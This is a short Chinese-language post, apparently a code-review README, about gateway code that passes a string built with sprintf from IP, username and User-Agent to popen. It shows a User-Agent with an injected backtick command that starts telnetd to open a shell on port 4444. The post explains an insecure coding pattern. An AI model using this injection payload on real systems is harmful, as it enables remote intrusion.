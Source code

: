 ## shitcode NO.1

![image-20210811163041670](README.assets/image-20210811163041670.png)

这段 shitcode 是我从某个网关上弄下来的，web 服务在收到请求时把请求的 UA 设置成环境变量 HTTP_USER_AGENT

然后后端获取这个环境变量的值，然后把 客户端的 ip，登录的用户名，UA 拼接，通过系统命令 md5sum 去计算 md5 值

这里直接使用 sprintf 去拼接，拼接后的字符串没有任何检查直接丢给 popen

按照正常编程的思路来说，没有什么问题，但其实，可以通过修改 UA 来达到 RCE，因为 **UA 是用户可控的**

我正常的 UA 是

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
```

我只需要使用一个浏览器插件把我的 UA 改成

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36 `telnetd -l /bin/sh -p 4444`
```

然后再去访问能触发这个逻辑的 api，直接就能在目标机器的 4444 端口开一个 shell